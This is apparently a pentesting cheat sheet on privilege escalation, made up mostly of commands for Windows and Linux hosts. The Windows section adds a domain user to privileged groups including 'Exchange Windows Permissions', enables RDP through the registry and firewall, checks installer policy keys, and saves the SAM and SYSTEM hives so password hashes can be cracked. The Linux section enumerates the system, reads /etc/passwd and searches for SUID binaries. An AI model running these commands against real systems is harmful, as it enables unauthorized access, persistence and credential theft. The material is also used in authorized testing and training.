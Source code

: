 # Privilege escalation

```
systeminfo
whoami /all
net users
net users <USERNAME>
tasklist /SVC
sc query
sc qc <SERVICE>
netsh firewall show state
```

Check the others directories

```
net user <USERNAME> <PASSWORD> /add /domain
net group "Exchange Windows Permissions" /add <USERNAME>
net localgroup "Remote Management Users" /add <USERNAME>
```

Enable RDP:
```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=yes
```

Privileges on Windows:
```
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Dumpt SAM password hash and try to crack it:
```
reg save hklm\system C:\Users\<USERNAME>\system.hive
reg save hklm\sam C:\Users\<USERNAME>\sam.hive
```

`Import-Module .\<FILE>`

Linux:
```
id
sudo -l
uname -a
cat /etc/hosts
cat /etc/fstab
cat /etc/passwd
ss -tulpn
ps -auxf
ls -lahv
ls -R /home
ls -la /opt
env

find / -perm -u=s -type f 2>/dev/null
find / -perm -4000 2>/dev/null | xargs ls -la
```
